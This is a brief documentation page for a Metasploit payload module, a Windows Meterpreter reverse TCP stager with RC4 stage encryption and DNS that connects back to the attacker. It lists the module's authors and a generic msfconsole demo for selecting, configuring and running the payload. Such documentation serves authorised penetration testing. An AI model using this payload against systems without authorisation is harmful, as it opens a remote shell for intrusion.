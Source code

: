 ## Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (RC4 Stage Encryption DNS)

Inject the meterpreter server DLL (staged). Connect back to 
the attacker


## Module Name
payload/windows/patchupmeterpreter/reverse_tcp_rc4_dns

## Authors
* skape
* jt <jt@klake.org>
* hdm
* sf
* mihi
* RageLtMan





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupmeterpreter/reverse_tcp_rc4_dns
msf payload(reverse_tcp_rc4_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4_dns) > set TARGET <target-id>
msf payload(reverse_tcp_rc4_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4_dns) > run
```
    
    